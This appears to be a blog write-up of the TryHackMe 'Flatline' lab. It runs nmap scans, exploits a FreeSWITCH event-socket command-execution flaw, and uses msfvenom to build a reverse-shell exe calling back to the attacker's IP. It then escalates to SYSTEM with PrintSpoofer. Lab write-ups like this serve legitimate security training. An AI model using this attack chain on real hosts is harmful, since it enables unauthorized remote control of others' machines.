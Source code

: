 ```yaml
---
layout: default
title : muzec - Flatline TryHackMe writeup
---
```


Now that is some easy and annoying machine don't get me wrong man it a fun machine really but the annoying part is that it take a long time to boot up XD let jump in already man.

We always start with an nmap scan.....

```
nmap -p- --min-rate 10000 -oN nmap/full.tcp 10.10.20.232  -v -Pn
```

```
┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/flatline]
└─$ nmap -p- --min-rate 10000 -oN nmap/full.tcp 10.10.20.232  -v -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-26 08:00 WAT
Initiating Parallel DNS resolution of 1 host. at 08:00
Completed Parallel DNS resolution of 1 host. at 08:00, 0.26s elapsed
Initiating Connect Scan at 08:00
Scanning 10.10.20.232 [65535 ports]
Discovered open port 3389/tcp on 10.10.20.232
Connect Scan Timing: About 29.40% done; ETC: 08:02 (0:01:14 remaining)
Discovered open port 8021/tcp on 10.10.20.232
Completed Connect Scan at 08:02, 82.34s elapsed (65535 total ports)
Nmap scan report for 10.10.20.232
Host is up (0.22s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
8021/tcp open  ftp-proxy

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 82.68 seconds
```

No we know we have just 2 open ports let throw in some service detection and default nmap scripts to know what we are dealing XD.

```
nmap -sC -sV -oN nmap/normal.tcp -p 3389,8021 10.10.20.232 -Pn
```

```
# Nmap 7.91 scan initiated Sat Feb 26 08:04:03 2022 as: nmap -sC -sV -oN nmap/normal.tcp -p 3389,8021 -Pn 10.10.20.232
Nmap scan report for 10.10.20.232
Host is up (0.18s latency).

PORT     STATE SERVICE          VERSION
3389/tcp open  ms-wbt-server    Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2022-02-26T10:03:56+00:00
| ssl-cert: Subject: commonName=WIN-EOM4PK0578N
| Not valid before: 2021-11-08T16:47:35
|_Not valid after:  2022-05-10T16:47:35
|_ssl-date: 2022-02-26T10:03:59+00:00; +2h59m41s from scanner time.
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h59m40s, deviation: 0s, median: 2h59m39s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 26 08:04:18 2022 -- 1 IP address (1 host up) scanned in 15.65 seconds
```

Now more better seems we are dealing with windows ahhhhh should be fun we have a default `RDP` port open and a strange one which is `8021` freeswitch let do some research if it vulnerable.

![image](https://user-images.githubusercontent.com/69868171/155839121-ff62de83-4aaf-4a2c-8b83-ebb4c18350ad.png)

Ahhh yes command execution exploit let download and give it a try.

![image](https://user-images.githubusercontent.com/69868171/155839178-ad465075-3803-437a-a48a-9f103bc8f0e9.png)

Boom working let try to generate a reverse shell payload file `exe` and transfer it to the target so we can execute it and get a stable shell back to our terminal.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/flatline]                                                                                                            
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.0.156 LPORT=1337 -f exe > shell.exe                                                                       1 ⨯ 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload                                                                                 
[-] No arch selected, selecting arch: x64 from the payload                                                                                                             
No encoder specified, outputting raw payload                                                                                                                           
Payload size: 460 bytes                                                                                                                                                
Final size of exe file: 7168 bytes
```

We start our `python server` on our local machine to transfer it ot the target.

![image](https://user-images.githubusercontent.com/69868171/155839282-a65c1a7d-aeb5-430b-bf01-15c5418f7821.png)

Boom file transfer successfully now let start our `ncat listener` and execute the file to get our reverse sehll back.

![image](https://user-images.githubusercontent.com/69868171/155839346-ebe051b8-4555-4f4b-91f7-b703ee846209.png)

Now that is a stable shell and we have `user.txt` time to get the root.


### Privilege Escalation

Let check the privilege we have on the system and what we can abuse to get `nt authority\system` .

```
whoami /priv
```

![image](https://user-images.githubusercontent.com/69868171/155839468-1b1fc597-0e58-4d4f-9f5b-48a6977d9ff5.png)

Boom seems we have `SeImpersonatePrivilege` enabled we can use `printspoofer` to abuse it to get system shell.

![image](https://user-images.githubusercontent.com/69868171/155839518-78efdaff-6712-4b57-83d3-3a0e78ebdd59.png)


Now let transfer it and run it.

![image](https://user-images.githubusercontent.com/69868171/155839573-fb18e193-3335-4398-b0da-df4107a0568f.png)

Now let confirm if we are system already with the command `whoami` .

![image](https://user-images.githubusercontent.com/69868171/155839619-0674ed99-2df2-4fb6-8380-9f83f57affeb.png)

We are done i told you it easy XD.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
